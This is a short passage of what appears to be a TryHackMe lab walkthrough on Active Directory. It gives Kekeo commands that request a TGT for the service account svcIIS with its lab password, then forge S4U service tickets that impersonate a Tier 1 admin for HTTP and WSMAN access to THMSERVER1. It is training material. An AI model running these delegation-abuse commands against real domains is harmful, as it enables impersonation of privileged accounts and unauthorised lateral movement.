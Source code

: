 	* Check T1 admin member
	
		```
		Get-ADGroupMember -Identity "Tier 1 Admins"
		```

		![task3-t1-admin](./images/task3-t1-admin.png)

	* Use Kekeo to generate TGT 
	
		```
		C:\Tools\kekeo\x64\kekeo.exe

		tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
		```

	*  Forge TGS requests for HTTP service and WSMAN service
	
		```
		C:\Tools\kekeo\x64\kekeo.exe

		tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_bruce.powell /service:http/THMSERVER1.za.tryhackme.loc
		tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_bruce.powell /service:wsman/THMSERVER1.za.tryhackme.loc
		```
